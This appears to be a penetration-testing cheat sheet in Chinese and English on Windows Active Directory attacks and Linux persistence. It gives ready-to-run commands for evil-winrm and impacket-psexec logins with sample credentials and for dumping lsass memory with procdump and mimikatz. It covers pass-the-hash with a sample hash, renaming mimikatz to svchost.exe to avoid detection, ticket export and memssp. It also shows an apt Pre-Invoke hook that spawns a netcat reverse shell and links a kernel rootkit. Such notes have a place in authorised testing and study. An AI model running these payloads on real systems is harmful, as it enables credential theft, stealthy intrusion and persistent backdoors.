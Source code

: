 ## Windows

### AD

#### Kerberos
Kerberos 是一個 **authentication protocol**

- Kerberos authentication process
  - UDP/88 and TCP/88, which should be listen in KDC
    - KDC (Key Distribution Center)
      - responsible of issuing the tickets
      - installed on the DC (Domain Controller)
      - supported by the AS (Authentication Service), which issues the TGTs
- 2 types tickets
  - TGS (Ticket Granting Service)：確定使用者可以 authenticate against a service
  - TGT (Ticket Granting Ticket)：代表可以 TGS 做請求
  - PAC (Privilege Attribute Certificate)：structure included in almost **every ticket**
    - contains the **privileges** of the user and it is signed with the KDC key

Kerberos Message

- KRB_AS_REQ: Used to request the TGT to KDC
  - 跟 KDC 要求 TGT
- KRB_AS_REP: Used to deliver the TGT by KDC.
  - 確定資料正確後會回傳 encrypted data (by user key)，其中就包含了 session key
    - 至此可以拿 TGT 跟 TGS 做請求
- KRB_TGS_REQ: Used to request the TGS to KDC, using the TGT.
- KRB_TGS_REP: Used to deliver the TGS by KDC.
  - 結束後 user 就有 valid TGS 可以**跟服務做請求**，之後就向 AP 發送 **KRB_AP_REQ** message
- KRB_AP_REQ: Used to authenticate a user against a service, using the TGS.
- KRB_AP_REP: (Optional) Used by service to identify itself against the user.
- KRB_ERROR: Message to comunicate error conditions.



#### winrm

**攻擊細節(Script/指令)**

```bash
evil-winrm -i <ip> -u evenet -p jonathan
```



#### PsExec

**說明**

- domain admin 利⽤ `smb` 服務登⼊並提權⾄ `nt authority\system`
- 必須要是 domain admin

**payload**

```bash
impacket-psexec "Billy:\$bilib1l1@<ip>"
impacket-psexec Artis:"ABC24106!"@<ip>
sh -c 'impacket-psexec "Artis:ABC24106!@<ip>"'
```



#### pass-the-hash

**說明**

- 先預備好 `mimikatz.exe `以及 `procdump.exe`
- `mimikatz.exe` 改名為 `svchost.exe` 或 `dllhost.exe`，以免被發現

**payload**

```bash
# dump lsass.exe memory
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

## use pypykatz in linux
pypykatz lsa minidump -o creds.txt lsass.dmp

## or use mimikatz in windows
mimikatz.exe "privilege::Debug" "sekurlsa::logonPasswords"

# use in remote
## -hashes - LM:NT
## empty LM: aad3b435b51404eeaad3b435b51404ee
## Administator NT: 2ea83ab1dc69bfbebd27198885051b93
impacket-psexec -hashes
aad3b435b51404eeaad3b435b51404ee:2ea83ab1dc69bfbebd27198885051b93
Administrator@<ip>
```





#### pass-the-ticket

**payload**

```powershell
mimikatz.exe "privilege::Debug" "sekurlsa::tickets /export"
```



#### memssp

**payload**

```powershell
mimikatz.exe "privilege::debug" "misc::memssp"
# result in C:\\Windows\System32\mimilsa.log
```





##### 參考資料

- https://book.hacktricks.xyz/windows/active-directory-methodology 



## Linux

透過 apt hook 的 prefix，可以定義在做 apt 相關操作之前/之後會執⾏哪些命令:

- `Dpkg::Pre-Invoke {  }`
- `Dpkg::Post-Invoke {  }`
- `APT::Update::Pre-Invoke {  }`
- `APT::Update::Post-Invoke {  }`
- e.g. `apt::Update::Pre-Invoke {"rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc > /tmp/f ＆"};'`

kernel module 後門

- [Reptile](https://github.com/f0rb1dd3n/Reptile)
